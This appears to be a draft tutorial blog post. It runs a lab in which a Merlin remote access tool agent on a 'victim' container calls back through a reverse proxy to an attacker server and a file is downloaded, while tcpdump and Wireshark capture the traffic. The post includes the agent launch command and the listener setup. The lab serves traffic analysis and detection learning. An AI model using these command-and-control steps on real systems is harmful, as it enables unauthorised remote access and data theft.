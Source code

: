 ```yaml
---
title: Running a scenario.
description: Draft
date: 2021-07-03
scheduled: 2021-07-03
layout: layouts/post.njk
order: 7
tags: posts
---
```


Let's see how a Remote Access Tool like Merlin communicates! We'll capture and read packets in two scenarios:

- when the attacker connects straight to the victim,
- when the attacker connects through our reverse proxy.

First, let's configure the merlin server. Go to the Attacker and open Merlin (remember that you can hit TAB to see all availeable options). Next, type `listeners` and `use http2`. Now we'll configure our HTTPS listener again. Type in `show`. Let's set Interface to our container's IP address, set Port to 5555, and rename it to MerlinListener. Normally you'd change the PSK, the preshared key you use in your first connection to the server, for something stronger but we'll leave it as is.

![merlin http setup](/img/remote/merlin-config.png)

Looks good! But let's wait before starting it.

Start up our Reverse Proxy (remember to adjust IP addresses if you're using docker over a couple of sessions) and let's get on to our Victim. You should open two terminals, one for capturing and the other for connecting.
Start up the capture:

``` bash
tcpdump -s 65535 -i any -v -w my_capture.pcap
```

And in the other terminal let's start the agent. The address that we pass leads to our Reverse Proxy that will pass the traffic from and to our Attacker.

``` bash
./merlinAgent-Linux-x64 -url https://172.17.0.4/merlin -psk 'merlin' -v
```

Let the Agent try to connect to the server a couple of times, simulating a real life scenario, before going to the attacker and starting up our Listener.
We can already see rush of packages just from the connection. If we wait we can see that each new idle check-in from the agent generates another dozen packages.
Before we get a thousand of message packages, let's give our agent something to do. In Merlin type in `interact` and let TAB completion fill out agent ID. Next let's see what files our Victim with `ls`. We can see the `hello.txt` file we put on the Victim earlier. Let's download it back.

![download hello](/img/remote/merlin-job.png)

![agent job](/img/remote/agent-job.png)

Now let's stop stop our agent from the server by typing `exit` and when it does let's stop the packet capture in another window with a `CTRL + C`. Let's transfer the capture from the container to our Desktop, like before:

``` bash
docker cp edf2ed59c20d:/my_capture.pcap C:\Users\User\Desktop\my_capture.pcap
```

Open the file with WireShark and let's see what we captured.

![packet capture](/img/remote/packet-capture.png)

This is a whole lot of packets of seemingly unreadable information, and this isn't a tutorial about reading WireShark output, but we can get some snippets of information out of them because we built this setup.

We can already see the IP address where the communication came from the Victim - *172.17.0.2*, and went to the attacker, or rather the reverse-proxy - *172.17.0.3*.
Next we can see the MAC address - *02:42:ac:11:00:04*.

![ip and mac address](/img/remote/ip-and-mac.png)

If we click on the packet where Info says "Server Hello, Certificate..." we can glance at the certificate the server showed during a handshake. Navigate all the way through the tabs until you see the issuer of the certificate.

![path to certificate issuer](/img/remote/certificate.png)

We can see the nonsense I've typed in during the certificate creation for the reverse-proxy. Inside a browser we'd get a warning that a site uses a self-signed certificate (and we had to use `-k` flag to ignore it when using `curl` command). But without a console there is no warning and so our machine continued sending and receiving packets from the dubious source.
Self signed certificates can be easy to spot and verify, once you get a suspicion.

![closeup on self-signed-certificate](/img/remote/self-signed-cert.png)

RAT's can be very hard to spot since they don't use up your machine's resources so they don't slow it down, and usually don't show up on Task Manegers or are named such that they seem legitimate.
